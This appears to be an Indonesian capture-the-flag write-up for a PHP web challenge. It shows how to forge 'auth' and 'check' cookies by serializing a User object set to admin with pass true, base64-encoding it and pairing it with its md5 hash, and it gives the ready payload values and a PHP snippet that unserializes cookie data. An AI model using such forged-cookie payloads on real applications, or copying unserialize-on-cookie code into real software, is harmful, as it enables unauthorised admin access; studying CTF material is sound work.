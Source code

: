 * Cookie auth merupakan serialize dari objek User dengan user-> admmin dan pass-> True + diencode ke base64. Adapun cookie check merupakan hasil encode base64 dari md5 cookie auth. 
Jadi untuk mendaptkan admin, peserta harus membuat payload objek untuk diserialize yang benar (seperti di bawah) dan mengencodenya ke base64 sebagai cookie auth. Lalu menghash md5 
dari hasil cookie auth sebagai cookie check. 

Lebih lengkap:
  ```
  <?php
  $_COOKIE['auth'] = 'Tzo0OiJVc2VyIjoyOntzOjQ6InVzZXIiO3M6NToiYWRtaW4iO3M6NDoicGFzcyI7YjoxO30=';
  //O:4:"User":2:{s:4:"user";s:5:"admin";s:4:"pass";b:1;} -> md5 -> 6897f0060a84ecb0600e4167d2a748e4

  $_COOKIE['check'] = 'Njg5N2YwMDYwYTg0ZWNiMDYwMGU0MTY3ZDJhNzQ4ZTQ=';
  //base64 6897f0060a84ecb0600e4167d2a748e4

  var_dump(md5($_COOKIE['auth']));
  var_dump(base64_decode($_COOKIE['check']));

  if(md5($_COOKIE['auth']) === base64_decode($_COOKIE['check'])) {
      $login = unserialize(base64_decode($_COOKIE['auth']));
      var_dump($login);
  }else {

  }
  ```
